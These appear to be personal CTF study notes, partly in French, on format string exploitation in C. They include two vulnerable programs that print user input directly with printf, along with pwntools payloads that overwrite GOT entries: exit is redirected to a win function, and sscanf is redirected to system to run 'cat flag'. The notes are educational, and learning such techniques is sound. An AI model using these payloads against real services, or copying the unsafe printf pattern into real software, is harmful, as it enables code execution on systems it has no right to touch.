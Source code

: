
%n in printf : ("abc%n", &i) : 3 dans la valeur i car abc = 3 characters
use to detect canary

("%200x%n", i) => i = 200
("%150$x") argument 150 
("%x%x(=c)%x2$x(=c)", 1, C,3)

## Example 1

```c
  
void win() {  
    char buf[0x1000];  
  
    int fd = open("flag", O_RDONLY);  
    int sz = read(fd, buf, 0x1000);  
  
    write(1, buf, sz);  
    fflush(NULL);  
}  
  
static void handle_client() {  
    char buffer[512];  
    int sz;  
  
    sz = read(1, buffer, sizeof(buffer));  
    buffer[sz] = 0;  
  
    PRINTF(buffer);  
  
    exit(1);  
}
```

```python
buf = p32(0x0804C024) # 0804C024 addr of exit  
buf += b'%.37810x%7$hn' # 37814 080493B6 // .addr in dec of win then %hn
```


%7 => trouvé l'offset où on peut ecrire
```buf = b'AAAABBBB%7$x'```
![[Pasted image 20231118211443.png]]

0x0804 93B6 = addr of win function in .text
93B6 => 37814 in dec (-4 car addr de retours p32(@exit) = 4)
%hn =>write a short (2 bytes) at the address.
On ecrit que la moitier car la fonction win n'a jamais été apl et donc son addresse n'est pas dans la GOT

## Example 2

```c
  
static Action get_action(void)  
{  
    char choice[15];  
    Action action;  
  
    while (1)  
    {  
        PRINTF("Action: ");  
        fgets(choice, sizeof(choice), stdin);  
        if (sscanf(choice, "%u", &action))  
            return action;  
    }  
}  
  
  
static int menu(char *user)  
{  
  system("/usr/bin/clear");  
  PRINTF("Welcome to my app");  
  
  if (!strlen(user))  
  {  
    PRINTF("\n\nUser name : ");  
    fgets(user, 49, stdin);  
    remove_newline(user);  
    return 1;  
  }  
  else  
  {  
    PRINTF("Hello '");  
    PRINTF(user);  
    PRINTF("', what would you like to do ?\n");  
    PRINTF(" %u. Process authentification\n", Authenticate);  
    PRINTF(" %u. Exit this cool program\n", Exit);  
    switch (get_action())  
    {  
      case Authenticate:  
        authenticate();  
        return 1;  
      case Exit:  
        return 0;  
    }  
  
  }  
}
```

```python
buf = b'AA' # padding bytes
buf += p32(0x0804C040 + 2)  # 0804C040 addr of sscanf + 2 because we want to write to the second part of addr of sscanf  
buf += p32(0x0804C040)  # 0804C040 addr of sscanf  
buf += b'%.2042x%16$hn' # addr of system :  0804 = 2052 - 4 -4 -2  
buf += b'%.47144x%17$hn' # C02C = 49196 - 2042- 4 -4 -2

target.sendline(buf)  
  
# Get action  
buf = b'cat flag'  
target.sendline(buf)
```

On prend exemple ici que l'addresse à déjà été résolu dans la GOT, on doit donc réécrire les l'addresse en entier
